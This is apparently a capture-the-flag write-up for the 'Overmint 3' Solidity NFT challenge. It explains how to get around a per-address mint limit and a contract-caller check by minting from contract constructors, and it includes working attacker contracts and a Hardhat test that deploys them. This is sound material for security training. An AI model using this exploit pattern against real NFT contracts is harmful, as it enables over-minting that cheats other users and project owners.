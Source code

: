 # Overmint 3

## Goals

=> Get a balance of 5 NFTs instead of 1
=> Must exploit one transaction

### Hints

- None

### Solution

- Since we are checking for contracts we can't reenter through the `_safeMint()` function, but we can just create a contract that loops 5 times and creats attacker contracts each time we itterate through the loop, and since inside a contract's constructor, msg.sender is the address that is deploying the contract we can deploy the `contract OvermintAttacker3` (msg.sender is not a contract so we pass the first require) and inside the constructor we now can deploy 5 `contract Attacker` which will mint and send the NFT to the players address which will result in only 1 transaction but 'n' Amount of NFTs minted.

### Attacker Contract

```solidity
contract Attacker {
    Overmint3 target;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        target.mint();
        target.safeTransferFrom(address(this), _player, target.totalSupply());
    }
}

contract Overmint3Attacker {
    Overmint3 target;
    uint256 attackCounter = 1;

    constructor(address _target, address _player) {
        target = Overmint3(_target);
        while (attackCounter < 6) {
            attackCounter++;
            new Attacker(_target, _player);
        }
    }
}
```

### Test

```javascript
it('conduct your attack here', async function () {
	const Overmint3AttackerFactory = await ethers.getContractFactory(ATTACKER_NAME, attackerWallet);
	await Overmint3AttackerFactory.deploy(victimContract.address, attackerWallet.address);
});
```
